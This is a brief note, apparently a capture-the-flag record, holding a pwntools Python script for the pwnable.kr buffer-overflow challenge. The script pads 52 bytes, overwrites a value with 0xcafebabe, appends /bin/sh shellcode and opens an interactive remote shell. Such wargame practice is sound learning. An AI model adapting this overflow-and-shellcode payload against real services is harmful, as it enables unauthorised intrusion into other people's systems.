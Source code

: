 #### Record some expolit of  payload.

pwntools起手式

<code>
from pwn import *

# 0xcafebabe

r = remote('pwnable.kr', '9000')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()

</code>
